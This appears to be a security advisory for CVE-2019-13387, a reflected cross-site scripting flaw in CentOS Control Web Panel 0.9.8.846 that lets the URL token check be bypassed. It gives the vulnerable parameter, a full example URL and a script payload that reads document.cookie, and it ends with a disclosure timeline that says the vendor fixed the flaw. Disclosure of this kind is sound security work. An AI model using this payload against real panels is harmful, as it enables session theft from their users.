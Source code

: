 # Information

```
Exploit Title       : CWP (CentOS Control Web Panel) Reflected Cross Site Scripting
Date                : 7 July 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.846
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-13387
```
<br>

# Description:

CWP Version 0.9.8.846 have implemented token in every URL to prevent cross site scripting.
But the aplication checks only length of the token, this allows attacker to follow the token format to bypass XSS protection
Refer to  : CVE-2018-18324

<br>

#  Steps to Reproduce

<b>Example</b> : <br><br>https://[target.com]:2083/cwp_xxxxxxxxxxxxxxxx/user1/fileManager2.php?frame=3&fm_current_dir=</script><script>alert(document.cookie)</script>

<b>Parameter Name </b>: fm_current_dir
<br>
<b>Attack Pattern for XSS</b> : </script><script>alert(document.cookie)</script>

<br>

<kbd>![](resources/CVE-2019-13387.md/ezgi.gif)</kbd>

<br>

#  Timeline

```
2019-07-07: Discovered the bug
2019-07-07: Reported to vendor
2019-07-07: Vender accepted the vulnerability
2019-07-15: The vulnerability has been fixed
2019-07-23: Published
```
